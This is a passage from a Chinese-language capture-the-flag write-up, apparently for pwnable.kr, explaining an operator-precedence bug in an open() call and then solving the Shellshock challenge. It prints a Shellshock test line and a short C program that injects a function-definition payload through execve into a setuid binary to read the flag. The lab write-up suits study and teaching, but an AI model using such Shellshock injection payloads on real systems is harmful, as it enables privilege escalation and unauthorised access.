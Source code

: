 
有问题的代码为：

```
fd=open("/tmp/xx.txt",O_RDONLY,0400) < 0
```

&lt;的优先级大于=，所以在打开文件后现执行open(“/tmp/xx.txt”,O_RDONLY,0400) &lt; 0 ,正常open时返回的值大于0， 正数&lt;0 比较之后为0，然后再赋值给fd，fd=0时对应着标准输入，所以后面会从标准输入中读取password，而不是从文件中读取。

## 10.shellshock

这题考察shellshock漏洞，ssh登入发现目录下有一个有漏洞的bash，shellshock被设置了setuid位：

```
#include <stdio.h>
int main(){
    setresuid(getegid(), getegid(), getegid());
    setresgid(getegid(), getegid(), getegid());
    system("/home/shellshock/bash -c 'echo shock_me'");
    return 0;
}
```

先来看看bash shellshock漏洞（参考： [http://drops.wooyun.org/papers/3268](http://drops.wooyun.org/papers/3268) ， [http://www.tuicool.com/articles/fEJbQn](http://www.tuicool.com/articles/fEJbQn) ）：

如果环境变量的值以字符“() {”开头，那么这个变量就会被当作是一个导入函数的定义（Export），这种定义只有在shell启动的时候才生效。BASH处理以“(){”开头的“函数环境变量”的时候，并没有以函数结尾“}”为结束，而是一直执行其后的shell命令。目录下有一个bash，输入：

```
env x='() { :;}; echo vulnerable' ./bash -c 'echo hello'
```

输出vulnerable  hello,表示这个目录下的bash存在bash shellshock漏洞。构造特定的环境变量，让有漏洞的bash执行输出flag的命令：

```
#include<stdio.h>
#include<string.h>
#include<stdlib.h>
#include <unistd.h>

int main() {
    char *envp[2]={0};
    envp[0]="KKK=() { :; }; /home/shellshock/bash -c \"cat /home/shellshock/flag\"";
    execve("/home/shellshock/shellshock",NULL,envp);
    return 0;
}
```

输出flag：only if I knew CVE-2014-6271 ten years ago..!!

## 11.coin1

题目如下：

![](http://img2.tuicool.com/E3AZbuR.png!web)
